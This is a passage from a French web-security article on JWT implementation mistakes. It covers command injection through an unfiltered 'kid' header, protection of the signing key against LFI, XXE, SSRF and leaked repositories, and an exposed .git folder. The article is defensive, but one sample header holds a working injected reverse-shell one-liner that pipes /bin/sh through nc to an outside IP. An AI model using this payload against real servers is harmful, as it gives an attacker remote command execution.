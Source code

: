 Ici le problème est évident, l'utilisateur peut injecter ses propres commandes si le KID n'est pas filtré.

Ainsi, la lecture d'un jeton avec ce header

<div class="language-json highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="p">{</span><span class="w">
	</span><span class="nl">"alg"</span><span class="w"> </span><span class="p">:</span><span class="s2">"HS256"</span><span class="p">,</span><span class="w">
	</span><span class="nl">"typ"</span><span class="w"> </span><span class="p">:</span><span class="w"> </span><span class="s2">"JWT"</span><span class="p">,</span><span class="w">
	</span><span class="nl">"kid"</span><span class="w"> </span><span class="p">:</span><span class="w"> </span><strike><span class="mi">2</span></strike><span class="w"> </span><span class="s2">"2; rm f;mkfifo f;cat f|/bin/sh -i 2&gt;&amp;1|nc 12.34.56.78 1234 &gt; f"</span><span class="w">
</span><span class="p">}</span><span class="w">
</span></code></pre></div></div>

génèrera un reverse shell vers la machine du pirate, qu'il pourra utiliser pour exécuter les commandes qu'il souhaite sur notre serveur web.

Pour éviter cette situation, le mieux est de ne pas du tout passer par une commande shell.

Mais si vous n'avez pas le choix, pensez à filtrer le KID avec une fonction comme `escapeshellcmd()` en PHP.

*Attention : c'est la même problématique quand on utilise des fonctions du style `eval()` !*

### Ne pas sécuriser la clé

Rien ne sert de prendre des milliers de précautions si la clé de chiffrement n'est pas en sécurité !

Il ne faut surtout pas que l'utilisateur puisse accéder à la clé :
- Elle ne doit donc évidemment pas être accessible à l'utilisateur via le serveur web
- Elle doit avoir les privilèges les plus restreints possibles au niveau de l'OS
- Il faut faire attention aux autres vecteurs d'attaques qui pourrait permettre à un attaquant de voler la clé sur le serveur : les failles LFI, mais aussi XXE si vous parsez du XML, SSRF si vous faites des requêtes depuis le back-end, XSS si vous devez générer des PDF sur mesure par exemple, etc.<br><br>Vous trouverez beaucoup de ressources sur Internet en googlant ces noms barbares, mais il est parfois nécessaire de faire appel à un professionnel pour mener un audit complet de l'application à sécuriser.
- Il faut faire attention aux failles OSINT ou relatives au social engineering.<br><br>Il est possible d'avoir une application incroyablement bien sécurisé, mais d'avoir malencontreusement oublié la clé de chiffrement dans le github de l'application, dans le slack de l'équipe, ou dans le trello du projet.<br><br>Autant d'endroits où pourraient s'incruster de petits malins en quête de sensation fortes, ou de véritables pirates qui en ont après votre application.<br><br>Il suffit parfois d'une recherche google bien placée, ou d'un peu de tchatche et d'astuce pour pénétrer ce genre d'endroits.<br><br>Dans [cet article](https://medium.com/intigriti/how-i-hacked-hundreds-of-companies-through-their-helpdesk-b7680ddc2d4c), vous trouverez un exemple d'intrusion dans un canal slack, via l'e-mail de support de la boîte.<br><br>*Il arrive que des développeurs oublient de retirer le dossier .git en production, ce qui permet à un potentiel pirate de reconstituer tout le code source de l'appli, et éventuellement la clé de chiffrement des jetons ou le mot de passe de la base de données !*

### Ne pas vérifier la signature
